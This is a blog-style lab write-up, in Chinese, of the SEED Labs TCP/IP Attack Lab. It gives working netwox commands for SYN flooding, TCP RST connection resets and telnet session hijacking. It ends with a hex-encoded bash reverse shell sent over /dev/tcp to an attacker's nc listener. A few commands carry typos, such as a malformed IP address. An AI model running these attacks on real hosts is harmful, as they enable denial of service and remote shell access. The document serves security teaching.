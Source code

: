 ```yaml
---
title: 'Seed Labs: TCP/IP Attack Lab'
tags:
  - Seed Labs
  - TCP/IP
categories: Network security
abbrlink: 47949
date: 2018-01-12 18:34:41
---
```


　　网络与计算机安全课程实验（二），TCP/IP攻击。

<!--more-->

#### 实验原理与目的

　　TCP/IP协议从开始设计时候并没有考虑到现在网络上如此多的威胁，由此导致了许多形形色色的攻击方法。本次实验涉及了TCP/IP攻击的三种基本类型，（1）SYN洪泛攻击，（2）TCP RST攻击，（3）TCP会话劫持攻击。希望通过本次实验了解TCP/IP攻击的原理，通过实际操作掌握基本的攻击方法，学会如何防范此类攻击。

#### 实验配置

　　基本配置与上一个实验：Local DNS Attack Lab基本一致。按照实验指导手册，配置3台虚拟机，1台作为DNS服务器，1台作为用户机，另1台作为攻击者，3台机器通过设置NAT网络来实现网络互访。

　　实验资料下载地址：
　　[http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/)

![12-1](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-1.png)

##### 启用telnet服务器

　　对于本实验，实验要求启用ftp和telnet服务器，但是其实在后续的实验中只用到了telnet。为了安全起见，Ubuntu系统中安装的这些服务通常是默认禁用的，所以需要以root用户身份运行以下命令来启用：

```
$ sudo service vsftpd start
$ sudo service openbsd-inetd start
```

#### 实验过程
##### SYN 洪泛攻击

　　SYN 洪泛是DoS攻击的一种形式，攻击者向受害者的TCP端口发送多个SYN请求，但是攻击者无意完成三次握手过程。攻击者要么使用欺骗性的IP地址，要么不要继续这个过程。通过这种攻击，攻击者可以淹没用于半开连接的受害者队列，即完成SYN，SYN-ACK但尚未得到最终ACK的连接。当这个队列已满时，受害者不能再进行连接。

　　队列的大小有一个系统范围的设置。在Linux中，我们可以使用以下命令检查设置：
```
$ sysctl -q net.ipv4.tcp_max_syn_backlog
```

　　我们可以使用命令“netstat -na”来检查队列的使用情况，即与监听端口关联的半开连接的数量。这种连接的状态是SYN-RECV。如果三次握手完成，连接的状态将建立。

![12-2](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-2.png)

　　Netwox编号为76的工具提供了SYN 洪泛攻击的基本功能，输入“netwox 76 --help”可以获取如下帮助信息。

![12-3](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-3.png)

　　首先在用户机上使用telnet 192.168.0.10命令测试telnet连接是否可用，验证可以成功登陆后即退出，然后攻击者开始使用如下命令发起攻击：

```
$ sudo netwox 76 --dst-ip 192.168.0.10 --dst-port 23
```

　　然后，用户机再次通过telnet连接到服务器，此时发现依然可以连接，按照实验指导手册所说，我们需要检查机器是否已经开启SYN cookie机制，SYN cookie是抵御SYN洪泛攻击的防御机制。我们可以使用sysctl命令查看、打开和关闭SYN cookie机制，使用如下命令查看SYN cookie机制的设置情况：
  
```
$ sysctl -a | grep cookie
```

　　可以看到默认情况下， SYN cookie机制是启用的，所以先将其关闭后再尝试攻击，使用如下命令将其关闭：

```
$ sysctl -w net.ipv4.tcp_syncookies=0
```

![12-4](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-4.png)

　　此时，再次发起攻击，并尝试再次使用telnet连接到服务器，发现已经无法连接到服务器了，如下：

![12-5](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-5.png)

　　当然，你也可以通过wireshark抓包来查看攻击者发送的数据包。实验完成后，再使用如下命令将SYN cookie机制打开，以防止SYN洪泛攻击。

```
$ sysctl -w net.ipv4.tcp_syncookies=1
```

##### TCP RST攻击telnet和ssh连接

　　RST表示复位，用来异常的关闭连接，在TCP的设计中它是不可或缺的。发送RST包关闭连接时，不必等缓冲区的包都发出去，直接就丢弃缓存区的包发送RST包。而接收端收到RST包后，也不必发送ACK包来确认。TCP RST攻击可以终止两个受害者之间建立的TCP连接。例如，如果两个用户A和B之间建立了Telnet连接（TCP），则攻击者可以将A到B的RST数据包进行欺骗，从而破坏现有的连接。为了在这次攻击中取得成功，攻击者需要正确构造TCP RST数据包。Netwox编号为78的工具提供了RST攻击的基本功能，输入“netwox 78 --help”可以获取如下帮助信息。

![12-6](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-6.png)

　　在用户机上使用telnet命令连接到服务器，登录成功以后，攻击者发起RST攻击，通过netwox 78号工具伪造RST包发送给服务器，命令如下：

```
netwox 78 –i 1921.68.0.10
```

　　命令运行后悔使得用户机与服务器的telnet连接中断，攻击效果如下图：

![12-7](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-7.png)

　　在用户机上使用ssh命令连接到服务器，登录成功以后，攻击者发起RST攻击，通过netwox 78号工具伪造RST包发送给服务器，使得用户机与服务器的SSH连接中断，实验效果如下图：

![12-8](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-8.png)

##### TCP RST攻击视频流应用程序

　　实验原理与任务2相同。TCP RST攻击终会止两个受害者之间建立的TCP连接。在用户机上使用浏览器访问优酷的视频，攻击者向用户发起RST攻击，再刷新浏览器页面时即显示，为了在这次攻击中取得成功，攻击者需要正确构造TCP RST数据包。
　　Netwox编号为78的工具提供了RST攻击的基本功能攻击命令，通过netwox 78号工具伪造RST包发送给服务器，命令如下：
  
```
netwox 78 –i 1921.68.0.100
```

　　攻击效果如下图，正常观看视频，发起攻击再刷新页面后TCP连接断开，页面崩溃。

![12-9](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-9.png)

![12-10](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-10.png)

##### TCP会话劫持

　　开启wireshark，并设置过滤器--filter telnet，然后开始监控局域网内的流量。用户开始使用telnet连接到服务器，分析telnet连接建立时发送的数据包，然后根据其特征伪造相应的数据包来劫持会话。

![12-11](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-11.png)

　　Netwox编号为40的工具提供了SYN 洪泛攻击的基本功能，输入“netwox 40 --help”可以获取如下帮助信息。
  
![12-12](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-12.png)

　　使用netwox的40号工具，根据抓包数据的TCP源端口目的端口填写tcp-src和tcp-dst，根据IP包的源地址目的地址填写ip4-src和ip4-dst，根据用户机发送给服务器的最后一个数据包的Next sequence nuber字段填写tcp-seqnum，根据服务器发送给用户机的最后一个数据包的Acknowledgement number字段填写tcp-acknum，根据IP包的TTL字段填写ip4-ttl，根据IP包的协议字段填写ip4-protocol ，然后根据需要填写tcp-data字段。加入我们发送ls命令到服务器来查看该目录下有什么文件，将ls转换成16进制并加上\r的16进制数，生成我们的命令如下：

```
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 59714 --tcp-dst 23 --tcp-seqnum 3089814629 --tcp-acknum 1471714290 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "6c730d00"
```

　　通过wireshark抓包可以看到命令已经发出，效果如下：

![12-13](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-13.png)

　　紧接着，服务器会将该命令的执行结果发送出来，我们同样可以通过抓包查看，如下所示，可以看到ls命令的执行结果，即显示该目录下所有文件：

![12-14](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-14.png)

##### 使用TCP会话劫持创建反向Shell

　　设置后门的一个典型方法是从受害者机器运行一个反向外壳，以使外壳访问受害者机器。反向shell是在远程机器上运行的一个shell进程，连接到攻击者的机器。攻击者一旦遇到危险，就可以方便地访问远程机器。
　　netcat程序允许我们指定一个端口号，并可以监听该端口上的连接。我们可以在攻击者机器上，使用如下命令netcat监听端口9090上的连接：

```
nc –l 9090 -v
```

　　“/bin/bash -i> /dev/tcp/10.0.2.4/9090 0 <＆1 2>＆1”会启动一个bash shell，其输入来自tcp连接，其标准错误输出将被重定向到相同的tcp连接。将该命令转换成16进制，并在最后添加回车的16进制代码，即0x0d00。

　　然后通过上面3.4的会话劫持将这个命令发送到服务器，命令如下：

```
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 53700 --tcp-dst 23 --tcp-seqnum 3862965514 --tcp-acknum 3719047389 --tcp-window 128 --tcp-urgptr 0 --tcp-data "2F62696E2F62617368202D69203E202F6465762F7463702F3139322E3136382E302E3230302F3930393020303C263120323E26310d00"
```

　　通过wireshark抓包可以看到数据包已经构造成功，并且发送到服务器。

![12-15](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-15.png)

　　由于攻击者一直在监听9090端口，服务器一旦接收到这个命令就会向攻击者建立连接，从而拿到服务器的shell，如下图所示netstat的输出显示已建立的连接。

![12-16](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-16.png)
